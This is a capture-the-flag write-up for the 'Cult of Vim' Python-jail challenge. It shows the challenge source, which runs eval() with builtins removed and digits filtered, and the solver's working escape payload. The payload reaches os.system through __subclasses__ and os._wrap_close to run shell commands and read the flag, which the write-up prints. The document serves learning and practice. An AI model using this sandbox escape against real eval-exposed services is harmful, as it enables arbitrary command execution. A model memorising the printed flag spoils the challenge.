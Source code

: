 Title: Cult of Vim

Description:
```
I thought exiting Vim was hard enough... now I can't even exit Python??

Your goal is to get a shell, good luck!

nc alpha.8059blank.ml 7002
nc beta.8059blank.ml 7002

Author: Lucas
```

Given files: [vim.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Cult%20of%20Vim/vim.py "vim.py")

Given hints: Dictionary comprehension might help with the number blacklist

vim.py:

```python
print("You can't even exit()... hehehe...")

filter = '0123456789'
while True:
    print('>', end=' ')
    inp = input()
    if any([True for l in inp if l in filter]):
        print('no')
        continue
    try:
        print(eval(inp, {'__builtins__': {}}))
    except Exception as e:
        print(e)
```

This is similar to the Church of Emacs challenge, but \_\_builtins__ cannot be used, so \_\_import__ cannot be used also. Also, numbers are also removed. In the hint, we can use dictionary comprehension to bypass the number filter, but I got a better method, ```True = 1``` in python, so we can just use 'True' to replace numbers.

Some websites that helped me:

[Explanation on how to use eval() vulnerability](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

[Explanation on how to use os.\_wrap_close exploit](https://blog.p6.is/Python-SSTI-exploitable-classes/#Using-os-wrap-close)

My main payload was this:

```''.__class__.mro__()[True].__subclasses__()[(True+True)*(True+True)*(True+True)*(True+True)*(True+True)*(True+True+True+True)+(True+True)*(True+True)*(True+True)*(True)+True].__init__.__globals__['system']('<SHELL COMMAND>')```

So first I did 'ls' to list all files in the directory, and then I used 'cat' to get the flag.

![image](https://user-images.githubusercontent.com/63996033/199573466-4480136a-ff7d-49b3-a44d-35eaa2faca4e.png)

We got our flag.

Flag: ACSI{:q_was_easier...}
